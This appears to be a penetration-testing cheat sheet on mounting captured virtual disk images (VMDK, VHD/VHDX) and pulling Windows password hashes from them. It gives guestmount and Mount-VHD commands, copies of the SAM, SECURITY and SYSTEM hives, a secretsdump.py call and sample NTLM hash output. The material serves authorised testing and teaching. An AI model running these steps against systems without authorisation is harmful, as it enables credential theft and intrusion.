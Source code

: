 ## 💿 Virtual Disk Mounting & Hash Extraction

### Virtual Disk File Types
```cmd
# Target file extensions:
.vhd     # Virtual Hard Disk (Hyper-V)
.vhdx    # Virtual Hard Disk v2 (Hyper-V)  
.vmdk    # Virtual Machine Disk (VMware)

# Common locations:
- Network backup shares
- Virtualization host storage
- Development environments
- System backup locations
```

### Linux Mounting
```bash
# Mount VMDK files:
guestmount -a SQL01-disk1.vmdk -i --ro /mnt/vmdk

# Mount VHD/VHDX files:
guestmount --add WEBSRV10.vhdx --ro /mnt/vhdx/ -m /dev/sda1

# Browse mounted filesystem:
ls /mnt/vmdk/Windows/System32/config/
```

### Windows Mounting
```cmd
# Right-click method:
1. Right-click .vhd/.vhdx file
2. Select "Mount"
3. Access as lettered drive

# PowerShell method:
Mount-VHD -Path "C:\backup\server.vhdx"

# Disk Management method:
1. Open Disk Management
2. Action > Attach VHD
3. Browse to file location
```

### Hash Extraction from Virtual Disks
```bash
# Extract registry hives from mounted disk:
cp /mnt/vmdk/Windows/System32/config/SAM .
cp /mnt/vmdk/Windows/System32/config/SECURITY .
cp /mnt/vmdk/Windows/System32/config/SYSTEM .

# Extract password hashes:
secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL

# Example output:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```
